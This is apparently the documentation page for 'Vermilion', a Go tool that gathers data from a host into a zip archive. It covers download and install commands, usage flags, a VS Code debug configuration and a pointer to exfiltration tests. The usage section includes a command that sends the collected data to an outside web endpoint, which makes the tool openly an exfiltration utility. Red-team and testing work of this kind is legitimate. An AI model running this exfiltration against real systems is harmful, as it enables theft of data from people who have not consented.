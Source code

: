 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```sh
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.1.0/vermilion_0.1.0_linux_amd64.tar.gz
tar -xzf vermilion_0.1.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```sh
./vermilion -h
```  

By default no exfiltration is executed, the following two commands are the same:
```sh
./vermilion
```
and
```sh
vermilion --noexf
```  

both the previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  


If you want to specify and endpoint for exfiltration run:  
```sh
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


